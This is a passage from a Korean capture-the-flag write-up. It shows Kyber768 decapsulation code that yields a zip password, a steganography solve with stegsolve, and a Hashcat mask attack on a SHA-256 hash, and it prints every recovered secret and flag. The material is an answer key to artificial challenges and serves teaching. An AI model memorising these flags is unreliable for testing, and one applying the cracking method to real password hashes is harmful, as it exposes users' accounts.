16e6432db894f172bb3e5135492422bd67369c9508116baa13f71893a93259379e87f9c3d7242399757736d705af68c8b5a65e26dab9b5a871619a72b79b43e1bc2c3bb0995b7268a624716a136ac4297247eb04ee462b5207c4ced3c83479077b6c2d23a8307643bb293a60c43553bce27de1100b3d980920d42715631a2b536251b4a21dfb1e95472f82877efc9a125df89c1d14adc9e463fe624f56dc57b823ca7390c7f0f72e64c74b82e153e8bb06eddaa9a28cb8ea799419a61bc66697cbac718069862df4ade3f012a268c6a1677d9b9c0502bb8269b29ae2fb99300b91fa31b213db9ae54290c6e5b6b3c5b0a30361748b6f6dd4463cbc247bd803fb3be4844a8f7c24ba32ced3ebfe63f3c06f8f0f5cb67f588438dd7d508713b9875bac85493c9b87a1fb29ce3bece709bb3facf69d2c6b860925ee74941cb0cb71c8156d28b9b4d1cb67cfd4e7ce50772f78938f3756cb1ac1840f3d6aed59f1")

ct = bytes.fromhex("a0fe41555c969181d1e8862ad86aaf0f68384df0f395445c4bbd35417570782ac1fa22a6d3979356cd321e867b5a6e9f655a0d9951762e75a2b7881a89dbd4a3f390a111e9c21c8f9b15f345edaa30fbb590beacb71d0dc270e4c07dfbee764497d59a5657e46ee65ccd5394ef39254cdd845002accbde2c8cea2d344de25076d41a384dcab13283e5fd2e162c27bb05d38376315e51789875ecc0ea86e10b981bcb0ae0a0dcc2b6f09846380850fd847e14a9ce86508424435fdaf3ecd97a94cd0caf820936d13d71b068608f08a65e70f70fd5107b0b2e9cfd5a960580107b70026178cae6f32377baf2b09ab0048d5b5d3cfe5c5d2b9ff7dfb8dbf5c3b6c455a1e6deb89b18d778b670238521f9040867f6db664932948bc90a673735a9be5eefb8b1b595600a130beb60c86ecb67e09693ebf857ef7b752c0e7bfd2595f30ba33833d29779311dacbc478fe7867f81362f25a6a96b195730be9af8dd894fc93e1968cf5dfff50ac30a1f091b8c451cda8455f680f2eb3a58bd51a668bf9f5fcb96a5ee7ea7b3401fd3d9307ced3c958085e060a273534f44317ac1a221b906a544dac4f2b50f0f753b0fe5dae95c9283788a0bf294613d2c9043cb11d18d250ab21a5ff7e86c624ad6a25394dcb5e3558648488f4f52a9a8ad25ca458a283c69ec198056c6de792c2f3ded15914823c9da493f3744dbad5ce6a9eeb45d86b2638911bb376eb91a0727b20b2434d4bfd17ff8abc1792ba55134524f2825f6fa0f37924be6ee5755968c69306066d723ed9c4f227249a82cf20f60a66ad55d11fb619284c5b76f4a1052a79a418214ceeedba9404a36072b05b16d5fb378c8ce6e185dba900284800f5600b1d3af4d49ba2f7b7d7c2db0b91be05e3199a9ddb7ba104d54fa5db4008226df6e355362a3675def598dab5f23a6ed8e3102a3ec441b75ae4b5d0145a35e7ea434bc74170af65706de85d23d0d02a9bd640a7504dd7a6f7cc2866ea41c34b02d21ec27a9bdc990839f2b11957de9109fcd60318219f35507703c6da4f848cb62a122e0f571a97dd3949461c5d250ad299accf073357ab14e4df1be04df5446a9a4d5e2f1d1acd3c5cf3c6dba008304e9df1d4f6bcddcd88778d4f5faabfba7182d9b271e1752b528e1641e1bc54724c5dc78d8d4ec8ffde62936763e911e642932439e56fdcf2dda7cc64c938db3736807caa051fffb7b8d53b07ba8a2fce67e563afb431255aca01aae900bbe002e87d542ed214c9c5bcab201ead8eefb9e3e092fb3a5cb25bdf817c416bc65ba392604a943afb98a841dd78f1b5f47eed164d5345d3e0e9a2372598492a83f753a817644b1adf6e328490729bed01e3f9a42580c3696024547f00c47ef50eb598f973acb60571fc4858e89cf382663fe580cfa18e03d5f6f91f4110b6b7f12898d7e156678e2bc7046ccf56545258a14513fdeaa4027787239ca93cd057eba7550999fd9e871d808b4af31073d037acb7c3cd6f9d0ef8579430567956bda7d7f314918b4a2b3")

ke = liboqs.liboqs.KeyEncapsulation("Kyber768", sk)

print(ke.decap_secret(ct).hex())

# print(ke)
```

해당 코드로 Shared Secret을 구하고, Hex로 변환하여 zip의 패스워드로 넘겨주면 FILE.txt를 얻을 수 있습니다.

**`98e8857c17cbbad4e25d273a5e8c9aa4b27f5adecf3cdf0c47dfd883a141ff3e`**



flag: `flag{n1c3_j0b_y0u_w0rk3d_h4rd}`

### Misc

#### hidden message

문제 파일을 압축 해제하면 아래의 사진이 제공됩니다.


사진 하나만 제공되는 것을 토대로, 이 문제가 steganography형식의 문제임을 짐작할 수 있습니다. 

가장 유력한 lsb 혹은 msb에 데이터를 숨겨놓았을 거라고 생각해 stegsolve 툴을 이용하여 데이터를 확인해보았습니다.



그러자 또 다른 png파일을 숨겨놓은 것을 확인할 수 있었고, 해당 파일을 저장하여 열어보면...



이렇게 flag를 획득할 수 있습니다.

#### Cat

다음과 같은 문제 지문이 제공됩니다.

```
An encrypted hash value like the one below has been discovered.
Use the following pattern as a reference and decrypt the hash: ?l?d?l?l?l?d!?d?d
27AC620A35D509F992EDC3F06DB3EC04C3610AE52F24F3CF13F29662EB4EF4F2
FLAG Format: FLAG{decrypted string}
```

해당 해시는 SHA-256 알고리즘을 통해 암호화된 문자열로 보이며, 주어진 패턴은 평문 형식을 나타냅니다. 패턴 ?l?d?l?l?l?d!?d?d는 다음과 같은 구조를 의미합니다:
- 소문자, 숫자, 소문자, 소문자, 소문자, 숫자, 느낌표, 숫자, 숫자

Hashcat을 사용하여, 컴퓨터에 장착된 RTX 4070 Ti Super GPU로 연산을 수행한 결과, 약 5초 만에 평문을 복호화할 수 있었습니다.
- 27ac620a35d509f992edc3f06db3ec04c3610ae52f24f3cf13f29662eb4ef4f2:h4ckm3!25



flag: `FLAG{h4ckm3!25}`